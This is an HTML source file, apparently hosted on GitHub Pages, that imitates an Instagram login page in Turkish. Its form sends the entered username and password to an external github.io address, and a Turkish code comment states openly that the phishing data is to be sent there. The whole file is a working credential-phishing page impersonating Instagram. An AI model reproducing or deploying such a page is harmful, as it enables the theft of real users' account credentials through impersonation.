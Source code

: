 <html lang="en">
<head>
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js?client=ca-pub-1421587149195757"
     crossorigin="anonymous"></script>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Instagram Giriş</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #fafafa;
        }
        .container {
            max-width: 400px;
            margin: 50px auto;
            padding: 20px;
            background-color: #fff;
            border-radius: 8px;
            box-shadow: 0 2px 4px rgba(0,0,0,0.1);
        }
        input[type="text"], input[type="password"] {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            border: 1px solid #ccc;
            border-radius: 4px;
            box-sizing: border-box;
        }
        input[type="submit"] {
            width: 100%;
            background-color: #3897f0;
            color: #fff;
            padding: 10px;
            margin: 8px 0;
            border: none;
            border-radius: 4px;
            cursor: pointer;
        }
        input[type="submit"]:hover {
            background-color: #357ae8;
        }
    </style>
</head>
<body>
    <div class="container">
        <h2>Instagram'a Giriş Yap</h2>
        <form action="https://AliUsta82.github.io/login" method="POST"> <!-- Buraya phishing bilgileri gönderilecek -->
            <input type="text" placeholder="Kullanıcı Adı" name="username" required>
            <input type="password" placeholder="Şifre" name="password" required>
            <input type="submit" value="Giriş Yap">
        </form>
    </div>
</body>
</html>

